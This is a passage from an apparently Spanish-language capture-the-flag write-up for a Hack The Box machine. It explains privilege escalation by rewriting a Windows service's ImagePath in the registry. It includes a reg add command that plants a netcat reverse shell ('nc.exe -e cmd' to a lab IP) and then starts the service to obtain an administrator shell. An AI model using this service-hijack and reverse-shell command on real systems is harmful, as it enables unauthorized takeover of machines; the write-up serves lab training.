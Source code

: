 	Para aprovecharse de este registro, primero debemos ver si este se encuentra corriendo, y si lo está, entonces detenerlo.
	
	``sc query seclogon``
	
	![29]
	
	Como podemos observar, el servicio está detenido, por lo que podemos proceder. Si vemos las características de este servicio, veremos un campo llamado ImagePath. El objetivo de nuestro vector, es que, al arrancar el servicio, ejecute alguna acción, y ImagePath sirve para colocar un comando (como por ejemplo, una reverse shell ayudándode se netcat).

	``reg query HKLM\system\currentcontrolset\services\seclogon``
	
	![30]
	
	Modificamos el parámetro ImagePath del registro de la siguiente manera:
	
	``reg add HKLM\system\currentcontrolset\services\seclogon \t REG_EXPAND_sZ \v ImagePath \d "C:\inetpub\wwwroot\uploads\nc.exe -e cmd 10.10.14.8 443" \f``
	
	![31]
	
	Como podemos observar, hemos metido una reverse shell en el ImagePath, y ahora, si arrancamos el servicio, ese comando será ejecutado al iniciar.
	
	``sc start seclogon``
	
	Si al iniciar el servicio, estamos en otra consola en escucha con netcat, recibiremos la shell como el usuario administrador.
	
	![32]
	
	Finalmente, podremos visualizar la flag de root.
	
	![33]
    
[0]:/assets/images/control-htb/0.png
[1]:/assets/images/control-htb/1.png
[2]:/assets/images/control-htb/2.png
[3]:/assets/images/control-htb/3.png
[4]:/assets/images/control-htb/4.png
[5]:/assets/images/control-htb/5.png
[6]:/assets/images/control-htb/6.png
[7]:/assets/images/control-htb/7.png
[8]:/assets/images/control-htb/8.png
[9]:/assets/images/control-htb/9.png
[10]:/assets/images/control-htb/10.png
[11]:/assets/images/control-htb/11.png
[12]:/assets/images/control-htb/12.jpg
[13]:/assets/images/control-htb/13.png
[14]:/assets/images/control-htb/14.png
[15]:/assets/images/control-htb/15.png
[16]:/assets/images/control-htb/16.png
[17]:/assets/images/control-htb/17.png
[18]:/assets/images/control-htb/18.png
[19]:/assets/images/control-htb/19.png
[20]:/assets/images/control-htb/20.png
[21]:/assets/images/control-htb/21.png
[22]:/assets/images/control-htb/22.png
[23]:/assets/images/control-htb/23.png
[24]:/assets/images/control-htb/24.png
[25]:/assets/images/control-htb/25.png
[26]:/assets/images/control-htb/26.jpg
[27]:/assets/images/control-htb/27.png
[28]:/assets/images/control-htb/28.jpg
[29]:/assets/images/control-htb/29.png